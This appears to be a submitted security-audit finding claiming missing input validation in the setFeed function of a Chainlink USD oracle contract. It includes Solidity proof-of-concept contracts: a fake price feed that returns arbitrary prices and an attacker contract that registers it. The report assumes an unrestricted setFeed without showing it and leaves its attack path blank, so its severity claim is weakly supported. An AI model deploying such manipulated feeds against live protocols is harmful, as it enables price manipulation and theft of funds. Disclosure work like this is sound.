 Polished White Coyote

High

# Lack of Input Validation in setFeed function for ChainlinkUsdOracle contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/oracle/ChainlinkUsdOracle.sol#L94

 The contract does not validate input parameters, such as addresses and stale price thresholds, before using them.

### Root Cause

Lack of input validation.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

 Invalid or malicious inputs can affect contract behavior or introduce vulnerabilities.

### PoC

**Malicious Chainlink Feed Contract**
Deploy a malicious Chainlink feed contract that returns arbitrary or incorrect data.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAggegregatorV3 {
    function latestRoundData()
        external
        view
        returns (uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound);

    function decimals() external view returns (uint256);
}

contract MaliciousChainlinkFeed is IAggegregatorV3 {
    int256 public maliciousPrice;
    uint256 public updateTimestamp;
    
    constructor(int256 _price) {
        maliciousPrice = _price;
        updateTimestamp = block.timestamp;
    }

    function latestRoundData()
        external
        view
        override
        returns (uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound)
    {
        return (0, maliciousPrice, block.timestamp, updateTimestamp, 0);
    }

    function decimals() external pure override returns (uint256) {
        return 8;
    }
    
    function setMaliciousPrice(int256 _price) external {
        maliciousPrice = _price;
        updateTimestamp = block.timestamp;
    }
}
```

 **Attacker Contract**
This contract simulates the attacker deploying and exploiting the ChainlinkUsdOracle.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ChainlinkUsdOracle.sol";
import "./MaliciousChainlinkFeed.sol";

contract Attacker {
    ChainlinkUsdOracle public oracle;
    MaliciousChainlinkFeed public maliciousFeed;

    constructor(address oracleAddress) {
        oracle = ChainlinkUsdOracle(oracleAddress);
        
        // Deploy a malicious feed with arbitrary price
        maliciousFeed = new MaliciousChainlinkFeed(1000 * 10**8); // Example malicious price

        // Exploit: Set the malicious feed in the oracle
        oracle.setFeed(address(0), address(maliciousFeed), 3600); // Setting an arbitrary address and threshold
    }

    function attack() external {
        // Update malicious price
        maliciousFeed.setMaliciousPrice(0); // Example price manipulation
    }
}
```
**Explanation**
**Malicious Chainlink Feed:** The MaliciousChainlinkFeed contract implements the IAggegregatorV3 interface and can return arbitrary price data. It allows setting a malicious price.

**Attacker Contract:** The Attacker contract interacts with the ChainlinkUsdOracle contract:

It deploys the MaliciousChainlinkFeed contract.
It calls setFeed on the ChainlinkUsdOracle contract, setting the malicious feed as the price feed for an asset.
Exploitation: After setting the malicious feed, the attacker can manipulate the price data returned by the MaliciousChainlinkFeed. This can disrupt the ChainlinkUsdOracle contract by feeding it incorrect price information.

### Mitigation

Implement checks for valid addresses and sensible values for stale price thresholds.